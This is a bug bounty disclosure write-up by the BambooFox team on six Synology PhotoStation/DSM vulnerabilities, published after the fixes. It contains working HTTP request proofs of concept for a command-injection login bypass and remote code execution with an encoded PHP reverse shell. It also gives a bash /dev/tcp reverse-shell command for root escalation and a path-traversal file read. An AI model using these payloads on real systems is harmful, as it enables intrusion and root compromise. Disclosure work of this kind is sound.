title: '[Synology Bug Bounty 2016]'
author: BambooFox
tags:
  - web
  - 'Synology Bug Bounty '
  - bug bounty
  - DoS
  - LFI
  - command injection
categories:
  - write-ups
  - bug-bounty-report
date: 2017-03-20 07:28:00
---
Synology Bug Bounty Report
=============

> Author: BambooFox Team 
> ( Henry, jpeanut, ding, leepupu, Angelboy, boik, adr, Mango King, Bletchley )

Last year ( 2016 ) , we BambooFox were invited to join the Synology Bug Bounty program. After about 2 months of hacking, we discovered several vulnerabilities, including a **remote root code execution** vulnerability. Synology engineers response and fix the vulnerabilities in a very sort time, which shows they pay a lot of attention to security issues.

And now ( in 2017 ) , we are allowed to publish the vulnerabilities:  
* [Vul-01 PhotoStation Login without password](#Vul-01-PhotoStation-Login-without-password )
* [Vul-02 PhotoStation Remote Code Execution](#Vul-02-PhotoStation-Remote-Code-Execution)
* [Vul-03 Read-Write Arbitrary Files](#Vul-03-Read-Write-Arbitrary-Files)
* [Vul-04 Privilege Escalation](#Vul-04-Privilege-Escalation)
* [Vul-05 DoS via Blocking IP](#Vul-05-DoS-via-Blocking-IP)
* [Vul-06 Local File Inclusion](#Vul-06-Local-File-Inclusion)

## Vul-01: PhotoStation Login without password
---
We mostly focus on **PhotoStation**, which is the picture management system enabled in most Synology DSM ( DiskStation Manager ).

The first vulnerability allowed us to **login as admin without entering the password.**

PoC1:
```
GET //photo/login.php?usr=admin&sid=xxx&SynoToken=/bin/true HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept:    text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: |
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

The key points are the `|` character in the `X-Forwarded-For` field and `/bin/true` in the get parameter `SynoToken`. The server site CGI will concatenate the strings in `usr`, `X-Forwarded-For` and `SynoToken` into a command and execute the command, and the special characters `|` and `>` aren't filtered out correctly, which will lead to the **command injection** vulnerability. 

Therefore in our PoC1, the command will become:
```
/usr/syno/bin/synophoto_dsm_user username | /bin/true
```

The command will return 0 (True) and thus bypass the authentication.

**Result:
Adversary can login as admin without password**

![Login without password](http://i.imgur.com/pnIWZ6t.png)

## Vul-02: PhotoStation Remote Code Execution
---
After we successfully login as admin via the command injection vulnerability, we extended the attack surface to attempt remote code execution.

PoC2: 
1 . Encode the command into base64 format
```
base64encode( $sock=fsockopen("......",8080);exec("/bin/sh -i <&3 >&3 2>&3"); )
=> JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOw==
```

2 . Send the payload
```
GET //photo/login.php?usr=|&sid=php&SynoToken=eval%28base64_decode%28%22JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2bJjMgMj4mMyIpOw%3D%3D%22%29%29%3B HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: -r
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

We adopted a similar approach (PoC1) in order to achieve RCE.

We then took a deep look into the source code of PhotoStation, and found the following code:
```php
if ($x_forward) {
    $ip = $x_forward;
}
// ...
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--current', $user, $session_id, $ip, $synotoken), false, $isValidUser);

if ($retval === 0) {
    $login_status = true;
} else {
    // login failed
}
```

In this code snippet, `$user`, `$ip` and `$synotoken` can be easily controlled by crafting the HTTP headers, and that's the original cause of the command injection vulnerability.  
Our first few attempts failed due to the site filtered out some special characters. However, we noticed that the site did not filtered out all the special characters. Here's the code that indicated the non-filtered characters:
```php
static $skipEscape = array('>', '<', '|', '&');
```

As a result of the code above, `>`, `<`, `|` and `&` can be used to achieve command injection.

![Remote Code Execution](http://i.imgur.com/qJxpKq8.png)

## Vul-03: Read-Write Arbitrary Files
---
After we got the shell, we continued to find security flaws in the DSM. The binary program `synophoto_dsm_user` got our attention. This binary is a **setuid program**, and has a powerful copy function.  
With the `--copy` parameter, it will do the `cp` command and **copy a file with the root permission**. This make us have the ability to read/write an arbitrary file .

## Vul-04: Privilege Escalation
---
With the previous Vul-03, we can exploit the vulnerability and **escalate our privilege to root**. We first tried modify the `/etc/crontab` file, but failed due to the [AppArmor](https://en.wikipedia.org/wiki/AppArmor) protection. So we change our target to the file that will be invoked by crontab. Finally we found `/tmp/synoschedtask`, a task which will be invoked by crontab as root. We use `synophoto_dsm_user` to modify its file content to the following command:
```
/volume1/photo/bash -c '/volume1/photo/bash -i >& /dev/tcp/x.x.x.x/yyyyy 0>&1'
```

Now we can wait for our reverse shell, with the root permission.
![Remote Code Execution](http://i.imgur.com/5YrQU54.jpg)

## Vul-05: DoS via Blocking IP
---
We also found some other security flaws.
If a user sends too many requests to `forget_passwd.cgi`, the user will be blocked by his IP, which is retrieved from the `X-Forwarded-For` header.
However, `X-Forwarded-For` can be easily forged from the client side, therefore an attacker can block as many users as he wants by forging the `X-Forwarded-For` header, leading a DoS attack.
![Block IP](http://i.imgur.com/aU9IDWm.png)

## Vul-06: Local File Inclusion
---
There's a LFI (Local File Inclusion) vulnerability in `download.php`. The `id` parameter is controllable.  
For example, we can use `../../../../../../var/services/homes/[username]/.gitconfig` to download a user's git config file.

![Local File Inclusion](http://i.imgur.com/ZpL5Tw7.png)  



## Timeline
* 2016/07/25 Report vulnerabilities to Synology
* 2016/09/01 Confirm that all vulnerabilities have already been fixed by Synology
* 2017/03/13 Confirm that we're allowed to publish the bug bounty report
* 2017/03/20 Synology Bug Bounty Report published


## Note
Some of the vulnerabilities have already been discovered by Lucas Leong from Trend Micro ( [link](http://seclists.org/oss-sec/2016/q1/236) )